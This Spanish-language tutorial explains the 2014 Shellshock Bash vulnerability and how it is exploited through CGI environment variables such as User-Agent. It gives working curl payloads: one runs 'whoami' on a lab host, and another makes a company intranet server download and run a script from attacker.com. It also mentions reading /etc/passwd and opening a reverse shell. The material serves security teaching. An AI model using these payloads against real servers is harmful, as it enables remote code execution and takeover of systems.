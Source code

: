
---

# Ataque Shellshock

El ataque Shellshock es una técnica que explota una vulnerabilidad crítica descubierta en 2014 en el intérprete de comandos **Bash**, presente en muchos sistemas basados en Unix y Linux. Esta vulnerabilidad permite ejecutar comandos arbitrarios si una variable de entorno es manipulada de forma maliciosa.

## ¿Por qué ocurre esta vulnerabilidad?

Bash tiene una funcionalidad que permite definir funciones en variables de entorno. El problema aparece cuando, tras la definición de una función, Bash sigue interpretando cualquier contenido adicional como comandos. Esto abre la puerta a la ejecución de código malicioso cuando se evalúan variables de entorno que no deberían contener código ejecutable.

Este comportamiento se vuelve peligroso cuando un servicio como un servidor web (por ejemplo, Apache con CGI habilitado) pasa variables de entorno a scripts en Bash. Si un atacante logra inyectar código en alguna de esas variables (por ejemplo, `User-Agent`, `Cookie` o `Referer`), Bash ejecutará esos comandos sin verificar si son legítimos.

---

## Ejemplo práctico

Supongamos que estamos auditando un servidor Linux que tiene un CGI habilitado y usa Bash para interpretar scripts.

Desde nuestra máquina atacante, enviamos una solicitud `curl` con un `User-Agent` modificado:

```bash
curl -A '() { :;}; echo; echo; /bin/bash -c "whoami"' http://10.10.10.100/cgi-bin/status.sh
```

Si el servidor es vulnerable y ejecuta el script con Bash, este comando imprimirá el nombre del usuario con el que se ejecuta el CGI (probablemente `www-data` o `apache`), confirmando que podemos ejecutar comandos arbitrarios.

A partir de ahí, podríamos continuar con otros comandos como `id`, `uname -a`, `cat /etc/passwd`, etc., o incluso abrir una reverse shell.

---

## Ejemplo realista

Durante una auditoría interna de una pequeña empresa, detectamos un viejo servidor web con CGI activado. El sistema operativo es una versión antigua de CentOS y Bash no ha sido actualizado desde hace años.

Observamos que el endpoint `/cgi-bin/ping.sh` permite ejecutar scripts que hacen llamadas internas. Enviamos la siguiente petición con `curl`:

```bash
curl -A '() { :;}; /bin/bash -c "curl http://attacker.com/shell.sh | bash"' http://intranet.empresa.local/cgi-bin/ping.sh
```
